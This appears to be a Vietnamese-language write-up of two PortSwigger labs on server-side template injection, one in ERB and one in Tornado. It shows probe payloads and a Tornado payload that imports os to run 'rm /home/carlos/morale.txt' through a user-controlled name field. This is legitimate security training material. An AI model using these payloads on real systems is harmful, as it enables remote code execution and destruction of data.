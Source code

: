 # [Portswigger] Server-side template injection

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/3e6623ba-fc70-4e15-8d32-364d0918eb22)

***

## 1. Lab: Basic server-side template injection

* Content:
```
This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.
```
* Exploit:

Nghiên cứu cấu trúc của ERB template => Dùng  cú pháp: `<%= expression %>`

Khi ấn vào link 1 sản phẩm bất kỳ => Xuất hiện parameter `message`

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/470745af-55b0-4f48-9f94-51bebcd97e22)

=> Thử fill cú pháp của ERB template: `message=%3C%=%207*7%20%%3E` (`message=<%= 7*7 %>`)

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/affb0a8c-e4af-44b3-ac9e-857edf87ce4d)

Dùng lệnh `system()` để truyền command:

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/f427c46c-028e-4a62-b101-753bb6175fe0)

Thực hiện xóa file theo yêu cầu của lab:

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/e24b737b-0e2f-4931-b3e8-6c46e5bb1cc7)

LAB SOLVED!

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/0c88bb34-9130-463c-aac1-822d3bba4ea8)

***

## 2. 

* Content:
```
This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter
```
* Exploit:

Nghiên cứu `Tornado template` => Sử dụng expression `{{ }}`

Tập trung vào tính năng `Preferred name`:

<img width="405" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/15203fc3-311a-4b63-979e-5389a5722ffd">

Thay đổi giá trị submit lên là `user.name}}{{7*7}}`:

<img width="451" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/3b7fb10b-e4f4-4d79-bd79-35dd16d419d9">

Thực hiện post 1 comment lên và quan sát tên hiển thị => Thấy giá trị `49` xuất hiện, chứng tỏ vị trí `Preferred name` bị dính lỗi SSTI:

<img width="374" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/9ee75eb4-c649-4c6c-a8f8-29449b058fae">

`Tornado template` sử dụng cú pháp sau để chạy lệnh OS => Áp dụng xóa file LAB yêu cầu:

```
{% import os %}
{{os.system('rm /home/carlos/morale.txt')}}
```

LAB SOLVED!

<img width="593" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/310cf722-87fa-4eba-8da3-2ee23d43fe6f">

